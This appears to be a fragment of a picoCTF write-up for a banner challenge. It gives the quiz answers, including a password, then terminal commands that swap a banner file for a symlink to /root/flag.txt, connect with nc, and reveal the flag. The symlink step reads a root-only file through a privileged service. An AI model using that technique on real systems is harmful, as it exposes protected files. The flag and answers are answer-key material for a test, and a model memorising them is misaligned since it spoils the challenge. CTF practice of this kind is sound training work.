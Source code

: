 what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C                           
┌──(edgar㉿vbox)-[~]
└─$ nc tethys.picoctf.net 51634
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}